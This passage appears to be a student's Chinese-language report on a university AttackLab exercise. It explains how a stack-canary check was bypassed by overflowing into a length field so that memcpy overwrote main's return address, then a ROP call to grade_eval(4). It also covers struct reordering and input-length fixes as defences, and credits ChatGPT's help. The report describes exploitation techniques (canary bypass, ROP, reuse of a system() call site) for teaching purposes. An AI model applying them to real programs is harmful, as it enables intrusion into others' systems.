



### 9.5 为什么这条路径没有触发 Canary 检查

`gets()` 从 `expression` 起始处写入 260 字节，自动追加的结束符位于偏移 260；而 `input()` 的 Canary 从偏移 280 开始。因此本次输入没有直接覆盖 `input()` 的 Canary。

之后 `memcpy()` 的目标被调整到 `main()` 的返回地址，而不是 `input()` 栈帧中的 Canary。它覆盖的是调用者的返回控制数据，绕过了“从局部数组连续写到 Canary 再到返回地址”的传统路径。由于 `main()` 的 Canary 也位于其返回地址之前，本次复制从 `main()` 返回地址开始，亦未覆盖 `main()` 的 Canary。

### 9.6 最终观察与限制

最终 GDB 记录显示：

```text
RIP = 0x401677 <grade_eval>
RDI = 0x4
```

随后程序输出：

```text
Hope A will be your grade!
```

这证明 `grade_eval(4)` 已被调用，Canary 任务要求的目标字符串已经出现。

但紧接着 GDB 显示：

```text
Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

原因是当前 ROP 链在 `grade_eval()` 后面的返回位置放置了零地址，函数执行 `ret` 后跳到了 `0x0`。因此本次结果应准确表述为：**绕过 Canary 并成功调用 `grade_eval(4)`，目标字符串输出成功；但 ROP 链没有提供有效的后续返回地址，进程在输出后发生 SIGSEGV。** 当前截图没有证明程序正常退出，也不能替代课程平台的自动测试结果。



## 十、结构体成员重新排列与防御思考

题目要求思考：如何重新排列 `log_frame` 的成员，使上述利用方式失效？

原始结构中，`expression` 位于前面，`len` 位于其后。由于 `gets(expression)` 向更高地址连续写入，越界数据可以覆盖后面的 `logMsg` 和 `len`。攻击者于是能够改变后续 `memcpy()` 的目的地址。

一种针对该利用路径的重新排列方式是把 `len` 放在 `expression` 前面：

```c
struct log_frame {
    int len;
    char expression[128];
    char logMsg[128];
    char pad[8];
};
```

在这种布局下，从 `expression` 起始地址向高地址溢出，不会先经过并覆盖位于它之前的 `len` 字段，因此这条“覆盖 len，再改变 memcpy 目的地址”的利用链会失效。

但仅仅调整字段顺序并不能让程序完全安全：`gets()` 仍然没有长度限制，仍可能覆盖后续字段或栈控制数据。更可靠的修复应包括：

1. 使用 `fgets(f.expression, sizeof f.expression, stdin)`，限制输入长度；
2. 不让用户输入直接控制复制偏移，或在使用前验证 `len` 的范围；
3. 确保 `len` 与复制长度的组合不会越过 `logMsg` 的边界；
4. 保留 Stack Canary、NX 等纵深防御，但不把它们当作边界检查的替代品。

本题说明，防御机制保护的是特定的数据和执行路径；如果程序仍允许不可信输入控制另一次内存复制的目标地址，就可能重新创造攻击者需要的条件。

## 十一、实验总结

本次实验把缓冲区溢出从“数组写越界”的概念，推进到对真实控制流和内存布局的分析。

第一阶段通过 GDB 观察 `call`、`push rbp`、`leave` 和 `ret`，理解函数调用为什么会在栈中保存返回地址。随后通过 20 字符和 32 字符输入，观察越界长度不同会覆盖不同的栈字段。

执行 `malware` 的任务说明，攻击者可以复用程序中已有的 `system()` 调用点，并通过空字节把“用于溢出的数据”和“最终命令字符串”分开。栈空间执行进一步展示了机器码如何作为数据写入缓冲区，再通过修改返回地址转化为指令执行。

NX 任务中，栈不能作为代码执行区域，因此改用 ROP Gadget。实验不仅要找到 `pop rdi; ret`，还必须考虑 Gadget 的副作用、寄存器状态和函数入口栈对齐。Canary 任务则进一步表明，单纯保护返回地址前面的栈数据并不能自动修复程序中所有不安全的内存操作；被覆盖的 `len` 仍能改变 `memcpy()` 的目的地址。

## 十二、个人思考与 AI 贡献

本次 AttackLab 给我最大的收获，是对计算机执行函数调用的行为更加深刻了。前几次 Lab 和课程内容仅仅提到 call 调用的流程，这次 Lab 的第一部分跟随 break 中，通过查询各个寄存器保存的地址更深刻地理解了栈的工作流程。以及，亲身设计了缓存区溢出的越界，还通过一个有意思的实验————主动制造越界来运行我们想要的、指定的代码块了解了溢出的原因。在 Payload 中，我曾想直接跳到 system() 中，但被 AI 告知没有调整参数。所以要详细解析 eval()。ROP 中，我即便找到了合适的 Gadget，也被终端输出和 AI 提示要去检查它有没有额外修改寄存器或访问内存，还要考虑函数调用时的栈对齐问题。所以对汇编码的理解不光需要理解每条指令，还需要理解指令的内存占用和数据流。Canary 任务很具有启发性。最初我认为，只要在返回地址前放置 Canary，就能够阻止缓冲区溢出修改返回地址。但这道题利用结构体中 len 字段的覆盖，改变了后续 memcpy() 的目标地址，从而绕过了正常的连续覆盖路径。整个过程中遇到了一些问题，都通过更细致的 GDB 操作和推理解决。经过这次实验，我对栈帧、函数调用约定、机器码、ROP、NX 和 Stack Canary 之间的联系有了更完整的认识，也更加理解了计算机系统底层细节为什么会直接影响程序的正确性与安全性。

实验过程中使用 ChatGPT 辅助解释 C 代码、汇编指令、调用约定、栈帧、ROP Gadget 和 Canary 机制，并协助检查 payload 的布局及排查推导错误。本人负责在 WSL 中运行命令、操作 GDB、生成输入文件、观察实际寄存器和内存结果、保存截图并根据运行结果调整实验方案、以及理解实验流程和具体代码的含义。